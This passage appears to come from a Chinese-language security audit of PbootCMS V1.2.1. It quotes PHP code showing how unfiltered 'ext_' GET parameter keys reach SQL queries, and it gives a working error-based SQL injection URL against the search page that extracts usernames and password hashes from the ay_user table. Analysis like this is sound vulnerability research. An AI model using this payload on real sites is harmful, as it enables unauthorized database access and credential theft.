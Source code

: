 ```php
// 解析全局后置公共标签
    public function parserAfter($content)
    {
        ...
        $content = $this->parserSpecifyListLabel($content); // 指定列表
        return $content;
    }
```

方法：parserSpecifyListLabel(

进入以后 查看调用了 `$content = $this->parserSpecifyListLabel($content);` 方法


```php
// 解析指定分类列表标签
public function parserSpecifyListLabel($content)
{
  ...
  // 数据筛选 骚操作注入
  $where2 = array();
  foreach ($_GET as $key => $value) {
    if (substr($key, 0, 4) == 'ext_') { // 其他字段不加入
      $where2[$key] = get($key);
    }
  }
  ...
  // 读取数据
  if ($page) {
    $data = $this->model->getList($scode, $num, $order, $where1, $where2);
  } else {
    $data = $this->model->getSpecifyList($scode, $num, $order, $where1, $where2);
  }
}
```

这里就将重要的方法分析一下了，其他无关的就删除掉避免影响阅读。

这里接收了外部了外部所有的get参数然后判断了开头的前4个字符是否 ext_ 开头，如果符合就直接拼接进入$where2这个数组 然后带入数据库进行getList方法与getSpecifyList查询，而底层是字符串拼接，过滤了value没有过滤key所以有注入

### 0x08.4 前台搜索框注入

**0x08.4.1 漏洞利用**


```bash
url:http://127.0.0.1/cms/PbootCMS-V1.2.1/index.php/Search/index?keyword=aaaa&updatexml(1,concat(0x7e,(SELECT/**/distinct/**/concat(0x23,username,0x3a,password,0x23)/**/FROM/**/ay_user/**/limit/**/0,1),0x7e),1));%23=123
```

![](images/15892007895655.png)


0x08.4.2 漏洞讲解
